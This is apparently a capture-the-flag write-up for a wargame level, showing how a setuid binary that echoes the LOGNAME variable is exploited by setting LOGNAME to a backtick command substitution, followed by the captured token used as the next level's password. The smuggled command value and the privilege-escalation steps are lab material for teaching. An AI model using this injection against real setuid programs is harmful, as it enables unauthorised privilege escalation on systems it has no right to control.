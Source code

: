 ## Check files in home

ls -la

->  -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07

## check level07, this files have permissions in flag07 when executed then with string

string level07

```bash
	LOGNAME
	/bin/echo %s 
```

## to exploit then we need to change the value of env LOGNAME "LOGNAME=level07"

```bash
	export LOGNAME=\`getflag\`
```

## finally execute level07 script

./level07

->  Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

## Log in to user level07
su level08 (password: fiumuikeil55xe9cu4dood66h)